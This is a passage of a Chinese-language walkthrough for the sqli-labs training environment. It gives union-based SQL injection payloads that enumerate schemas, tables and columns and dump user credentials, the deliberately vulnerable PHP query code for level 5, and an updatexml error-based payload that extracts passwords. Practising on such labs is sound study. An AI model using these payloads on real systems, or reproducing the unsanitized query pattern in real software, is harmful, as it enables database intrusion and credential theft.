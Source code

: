 `")`闭合

```
1")--+
1") and ("1")=("1
```

```
-1") union select 1,group_concat(schema_name),3 from information_schema.schemata --+

-1") union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' --+

-1") union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+

-1") union select 1,group_concat(username,'@',password),3 from users --+
```

## less-5 报错注入

报错注入

```php+HTML
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
if($row)
        {
        echo '<font size="5" color="#FFFF00">';
        echo 'You are in...........';
        echo "<br>";
        echo "</font>";
        }
        else 
        {

        echo '<font size="3" color="#FFFF00">';
        print_r(mysql_error());
        echo "</br></font>";
        echo '<font color= "#0000ff" font size= 3>';

        }
}
        else { echo "Please input the ID as parameter with numeric value";}
```

```
1' and updatexml(1,concat(0x7e,(select substring(group_concat(username,'@',password),10)from users),0x7e),1)--+
```

![image-20241202221210721](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241202221210721.png)

使用`substring`函数一点一点往后取
